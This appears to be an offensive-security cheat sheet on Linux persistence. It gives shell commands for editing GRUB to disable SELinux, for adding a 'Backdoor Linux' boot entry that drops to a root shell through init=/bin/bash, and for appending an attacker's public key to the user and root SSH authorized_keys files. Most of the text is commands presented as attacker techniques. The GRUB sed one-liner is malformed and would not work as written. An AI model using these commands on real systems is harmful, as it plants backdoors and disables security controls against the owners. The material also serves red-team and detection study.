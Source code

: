 # Bootloader Persistence (Grub)
By modifying the GRUB bootloader configuration, attackers can achieve persistence and even control how the system boots, possibly disabling security features like SELinux or AppArmor.

#### Modify GRUB Configuration
- **Modify GRUB options:**
	```bash
	nano /etc/default/grub
	```
    - **Example modification to disable SELinux:**
      ```bash
      GRUB_CMDLINE_LINUX_DEFAULT="quiet selinux=0"
      ```

#### Update GRUB Configuration
- **Apply the new configuration:**
	```bash
	update-grub
	```

#### Create a Backdoor Boot Option
- **Add a custom kernel boot option that loads a malicious rootkit or backdoor:**
	```bash
	nano /boot/grub/grub.cfg
	```

	```bash
	menuentry 'Backdoor Linux' {
		set root='hd0,msdos1'
		linux /boot/vmlinuz root=/dev/sda1 rw init=/bin/bash
	}
	```

#### GRUB Backdoor
- **GRUB Backdoor:**
	```bash
	sudo sed -i 's/quiet splash/quiet splash init=/bin/bash/' /etc/default/grub
	sudo update-grub
	```

# SSH Persistence

## SSH Key Persistence
Attackers can inject their public SSH keys into authorized keys files to enable persistent access without needing credentials.

#### Add SSH Keys for Persistence
- **Add SSH Key to Current User `authorized_keys`:**
	```bash
	echo "<attacker_public_key>" >> ~/.ssh/authorized_keys
	```
- **Add SSH Key to Root `authorized_keys`:** Requires Root Permissions
	```bash
	echo "<attacker_public_key>" >> /root/.ssh/authorized_keys
	```
